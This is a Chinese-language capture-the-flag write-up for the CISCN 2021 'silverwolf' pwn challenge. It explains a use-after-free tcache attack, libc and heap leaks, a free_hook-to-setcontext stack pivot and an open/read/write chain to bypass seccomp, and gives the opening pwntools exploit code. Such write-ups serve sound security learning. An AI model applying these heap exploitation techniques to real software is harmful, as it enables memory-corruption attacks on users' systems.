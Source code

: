    ![image-20240712183148198](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407121831277.png)

# 2. [CISCN 2021 初赛]silverwolf

题目地址：[[CISCN 2021 初赛\]silverwolf | NSSCTF](https://www.nssctf.cn/problem/912)

相比于上一道题，这道题开了sanbox，不能直接使用system，需要在**堆上构造ORW**去读取flag。

### 思路：

1. 利用UAF泄漏堆的基地址、泄漏libc：修改next，申请到tcache作为chunk，修改tcache struct，伪造bin的数量，利用unsortedbin泄漏libc。
2. 再次利用UAF申请到tcache，修改tcache伪造堆的结构，便于后面写ORW。
3. 将ORW写入到构造的堆上，free_hook覆盖为setcontext+53（利用mov     rsp, [rdi+0A0h]指令，指令完成栈迁移），最后free完成栈迁移，迁移到写入ORW的堆上，输出flag。

### 分析：

1. 函数都和上一题一样，seccomp限制了一些函数调用，用seccomp-tools工具查出，只能使用open，read，write三个，典型的ORW来读取、输出flag：

   ![image-20240723173957484](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407232233996.png)

   ![image-20240723174037984](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407231742013.png)

### 利用：

1. 由于调用seccomp函数，程序会产生一些无用的bin，先将其申请掉，便于后面构造：

   ```python
   for i in range(7):
       add(0x78)
       edit(b"a")
   for i in range(7+4):
       add(0x68)
       edit(b"a")
   for i in range(7+5):
       add(0x18)
       edit(b"a")
   ```

   ![image-20240723174601470](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407231746624.png)

   ![image-20240723174636358](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407231746469.png)

1. 先泄漏出堆的基地址，再利用基地址修改next指针：

   ```python
   # 泄漏堆地址
   add(0x78)
   free()
   edit(p64(0)*2)
   free()
   show()
   p.recvuntil(b"Content: ")
   heap_addr = (u64(p.recv(6)[-6:].ljust(8,b'\x00'))&0xfffffffff000)-0x1000	#堆申请好后，偏移都是固定的，gdb调试出偏移即可
   success("heap_addr==>"+hex(heap_addr))
   edit(p64(heap_addr+0x10))   #修改next指针，指向tcache
   ```
